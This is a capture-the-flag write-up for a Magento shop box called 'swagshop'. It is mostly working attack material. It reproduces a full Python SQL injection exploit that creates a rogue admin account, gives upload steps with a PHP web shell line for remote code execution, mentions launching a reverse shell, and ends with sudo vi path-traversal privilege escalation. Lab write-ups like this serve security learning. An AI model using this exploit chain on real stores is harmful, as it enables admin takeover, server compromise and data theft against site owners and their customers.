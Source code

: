 swagshop
---

Steps
---
## 1. Adding a user as admin to the website

https://github.com/joren485/Magento-Shoplift-SQLI/blob/master/poc.py

```
import requests
import base64
import sys

target = sys.argv[1]

if not target.startswith("http"):
    target = "http://" + target

if target.endswith("/"):
    target = target[:-1]

target_url = target + "/index.php/admin/Cms_Wysiwyg/directive/index/"

# For demo purposes, I use the same attack as is being used in the wild
SQLQUERY="""
SET @SALT = 'rp';
SET @PASS = CONCAT(MD5(CONCAT( @SALT , '{password}') ), CONCAT(':', @SALT ));
SELECT @EXTRA := MAX(extra) FROM admin_user WHERE extra IS NOT NULL;
INSERT INTO `admin_user` (`firstname`, `lastname`,`email`,`username`,`password`,`created`,`lognum`,`reload_acl_flag`,`is_active`,`extra`,`rp_token`,`rp_token_created_at`) VALUES ('Firstname','Lastname','email@example.com','{username}',@PASS,NOW(),0,0,1,@EXTRA,NULL, NOW());
INSERT INTO `admin_role` (parent_id,tree_level,sort_order,role_type,user_id,role_name) VALUES (1,2,0,'U',(SELECT user_id FROM admin_user WHERE username = '{username}'),'Firstname');
"""

# Put the nice readable queries into one line,
# and insert the username:password combinination
query = SQLQUERY.replace("\n", "").format(username="ypwq", password="123")
pfilter = "popularity[from]=0&popularity[to]=3&popularity[field_expr]=0);{0}".format(query)

# e3tibG9jayB0eXBlPUFkbWluaHRtbC9yZXBvcnRfc2VhcmNoX2dyaWQgb3V0cHV0PWdldENzdkZpbGV9fQ decoded is{{block type=Adminhtml/report_search_grid output=getCsvFile}}
r = requests.post(target_url, 
                  data={"___directive": "e3tibG9jayB0eXBlPUFkbWluaHRtbC9yZXBvcnRfc2VhcmNoX2dyaWQgb3V0cHV0PWdldENzdkZpbGV9fQ",
                        "filter": base64.b64encode(pfilter),
                        "forwarded": 1})
if r.ok:
    print "WORKED"
    print "Check {0}/admin with creds ypwq:123".format(target)
else:
    print "DID NOT WORK"
```

### 2. RCE via file uploads

https://blog.scrt.ch/2019/01/24/magento-rce-local-file-read-with-low-privilege-admin-rights/

1. Edit current product to accept Custom Options
2. Set the allowed filetype to be `phtml`
3. Put your RCE code in the phtml file

```
e.g. exploit.phtml
---
<?php echo system($_REQUEST['cmd']);?>

```

4. Upload this file to the item that was modified, and checkout the item
5. Navigate to `/media/custom_options/quote/<a>/<b>/ (where a = first letter of the shell, b = second letter of the shell)
6. You can now send commands to the file.
7. Issue a reverse shell command 



Priv Esc
---

we can run vi as sudo

```
> sudo -l

Matching Defaults entries for www-data on swagshop:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on swagshop:
    (root) NOPASSWD: /usr/bin/vi /var/www/html/*


> sudo /usr/bin/vi /var/www/html/../../../root/root.txt


```


